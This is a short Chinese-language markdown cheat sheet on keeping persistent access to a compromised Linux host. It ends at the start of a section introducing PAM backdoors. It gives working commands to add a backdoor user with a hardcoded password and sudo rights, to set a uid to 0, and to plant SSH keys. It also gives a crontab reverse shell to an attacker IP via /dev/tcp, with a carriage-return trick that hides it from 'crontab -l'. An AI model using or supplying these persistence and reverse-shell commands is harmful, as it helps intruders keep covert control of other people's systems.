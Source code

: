**增加超级用户账号**

> **如果系统不允许`uid=0`的用户（`root`）远程登录，可以添加一个普通用户，并将其加入sudoers**

**增加用户**

```bash
useradd phP		
echo @admin.886|passwd --stdin phP

#添加账户
#设置密码(密码符合要密码强度策略)
```

**修改sudoers赋予sudo权限**

```bash
chmod +w /etc/sudoers    
echo "phP ALL=(ALL) ALL" >> /etc/sudoers	
chmod -w /etc/sudoers

#赋予写入权限
#添加sudo用户
#撤销写入权限
```

或者还可以修改/etc/passwd文件，把用户uid改为0。

**SSH公钥无密码登录**

```bash
ssh-keygen -t rsa    #本机生成rsa公钥

#把id_rsa.pub写入服务端的authorized_keys中
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
echo "id_rsa.pub的内容" > ~/.ssh/authorized_keys

#没有这个文件的话，就自己创建一个
cd ~/
mkdir .ssh
cd .ssh
touch authorized_keys
```

**Crontab定时反弹shell**

```bash
(crontab -l;printf "*/1 * * * * exec 9<> /dev/tcp/攻击者IP/8888;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

#每分钟执行一次，并且crontab -l看不出来
#这种要用crontab -e 进去查看并编辑才能看到
```

**PAM后门**

>  **PAM （Pluggable Authentication Modules ）**是由Sun提出的一种认证机制。
>
>  它通过提供一些动态链接库和一套统一的API，将系统提供的服务和该服务的认证方式分开
>
>  使得系统管理员可以灵活地根据需要给不同的服务配置不同的认证方式，而无需更改服务程序
>
>  同时也便于向系统中添加新的认证手段

